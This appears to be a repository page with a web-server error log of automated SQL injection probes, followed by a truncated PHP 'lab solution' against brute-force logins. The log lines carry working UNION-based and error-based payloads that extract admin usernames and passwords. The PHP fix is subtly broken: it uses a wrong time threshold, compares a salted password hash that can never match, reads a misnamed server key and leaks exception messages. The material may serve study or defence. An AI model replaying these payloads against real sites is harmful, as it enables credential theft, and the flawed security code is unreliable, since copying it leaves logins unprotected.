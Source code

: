```
[Sun Jul 21 23:05:13 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/f, referer: http://second.site.com//f/job.php?job=getzone&typeid=zone&fup=../../do%5Cjs&id=514125&webdb%5Bweb_open%5D=1&webdb%5Bcache_time_js%5D=-1&pre=qb_label%20where%20lid=-1%20UNION%20SELECT%201,2,3,4,5,6,0,concat%280x23,username,0x23,password,0x23%29,9,10,11,12,13,14,15,16,17,18,19%20from%20qb_members%20limit%201%23
[Sun Jul 21 23:05:13 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/shopadmin, referer: http://second.site.com//shopadmin/index.php?ctl=passport&act=login&sess_id=1%27+and%28select+1+from%28select+count%28*%29,concat%28%28select+%28select+%28select+concat%28userpass,0x7e,username,0x7e,op_id%29+from+sdb_operators+Order+by+username+limit+0,1%29+%29+from+%60information_schema%60.tables+limit+0,1%29,floor%28rand%280%29*2%29%29x+from+%60information_schema%60.tables+group+by+x%29a%29+and+%271%27=%271
[Sun Jul 21 23:05:13 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/SiteServer, referer: http://second.site.com//SiteServer/Ajax/ajaxOtherService.aspx?type=SiteTemplateDownload&userKeyPrefix=test&downloadUrl=aZlBAFKTavCnFX10p8sNYfr9FRNHM0slash0XP8EW1kEnDr4pNGA7T2XSz0yCY0add0MS3NiuXiz7rZruw8zMDybqtdhCgxw7u0ZCkLl9cxsma6ZWqYd0G56lB6242DFnwb6xxK4AudqJ0add0gNU9tDxOqBwAd37smw0equals00equals0&directoryName=sectest
[Sun Jul 21 23:05:14 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/SiteFiles, referer: http://second.site.com//SiteFiles/Module/cms/logo.gif
[Sun Jul 21 23:05:14 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/NewsType.asp, referer: http://second.site.com//NewsType.asp?SmallClass='%20union%20select%200,username%2BCHR(124)%2Bpassword,2,3,4,5,6,7,8,9%20from%20admin%20union%20select%20*%20from%20news%20where%201=2%20and%20''='
[Sun Jul 21 23:05:14 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/install, referer: http://second.site.com//install/index.php?_m=frontpage&_a=setting&default_tpl=jixie-110118-a16
[Sun Jul 21 23:05:14 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/Data21293, referer: http://second.site.com//Data21293/NYIKUGY5434231.mdb
[Sun Jul 21 23:05:14 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/admin, referer: http://second.site.com//admin/review.asp?id=1%20union%20select%201,2,3,4,5,admin,7,8,9,password,11%20%20from%20cnhww
[Sun Jul 21 23:05:15 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/admin, referer: http://second.site.com//admin/left.asp
```

## LAB SOLUTIONS
Brute Force
```
<?php
use SecurityApp\App;
global $config;
/* This is the code file you need to modify */
/* App::getPdo() returns a valid PDO instance */
/* App::getMysqli() returns a valid mysqli instance */

if( isset( $_REQUEST['Login'] ) ) {
	$time_current = time();
	$time_stored  = $_SESSION['time'] ?? $time_current;
	// add a safety check to see if login requests are too frequent
	if (($time_current - $time_stored) < 1000) {
		error_log($_SERVER['REQUEST_URL'] . ':' . $_SERVER['REMOTE_ADDR'] . ': Sequential request less than 1 second detected');
	} else {
		$username = strip_tags($_REQUEST['username'] ?? '');
		$pass = password_hash($_REQUEST['password'], PASSWORD_DEFAULT);
		try{
			$pdo    = App::getPdo($config);
			$stmt   = $pdo->prepare("SELECT * FROM users WHERE user=? AND password=?");
			$stmt->execute([$username, $pass]);
			$result = $stmt->fetch(PDO::FETCH_ASSOC);
		}catch(Exception $e){
			exit('<pre>' . $e->getMessage() . '</pre>');
		}
```